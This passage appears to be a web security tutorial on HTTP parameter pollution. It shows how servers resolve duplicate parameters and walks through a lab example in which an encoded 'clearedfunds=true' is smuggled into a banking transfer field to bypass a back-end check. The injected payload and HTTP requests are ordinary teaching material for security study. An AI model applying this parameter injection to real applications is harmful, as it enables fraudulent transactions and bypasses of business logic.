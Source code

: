 
### 🧠 How Servers Handle Duplicate Parameters

There’s no universal standard. Behavior varies by server, language, and framework. Here are the four **most common interpretations**:

| Server Behavior            | Effect                           |
| -------------------------- | -------------------------------- |
| **Use the first instance** | Ignores all later duplicates     |
| **Use the last instance**  | Overwrites earlier values        |
| **Concatenate values**     | Joins all values into one string |
| **Treat as array**         | Converts into a list/array       |

This ambiguity creates room for **attacks or bypasses**—especially when a front-end component handles one way, but a back-end component sees it differently.

---

### 💣 Exploiting HPP via Back-End Duplication

Let’s say this is the normal internal request sent by the app:

```
POST /doTransfer.asp HTTP/1.0
Host: mdsec-mgr.int.mdsec.net
Content-Length: 62

fromacc=18281008&amount=1430&clearedfunds=false&toacc=08447656
```

You want to **override** the `clearedfunds=false` parameter with `true`. But the app already sets `clearedfunds`—so you can’t just inject a new one... or can you?

If you inject this from the front-end:

```
FromAccount=18281008%26clearedfunds%3dtrue
```

The app will construct the back-end request like this:

```
fromacc=18281008&clearedfunds=true&amount=1430&clearedfunds=false&toacc=08447656
```

Now you have **two instances** of `clearedfunds`. If the back-end **uses the first instance**, your `true` value takes precedence, and the funds are marked as cleared. Boom—**bypass successful**.

---

### 📦 Payload Example + Logic Breakdown

Let’s walk through the actual front-end request:

```
POST /bank/52/Default.aspx HTTP/1.0
Host: mdsec.net
Content-Length: 96

FromAccount=18281008%26clearedfunds%3dtrue&Amount=1430&ToAccount=08447656&Submit=Submit
```
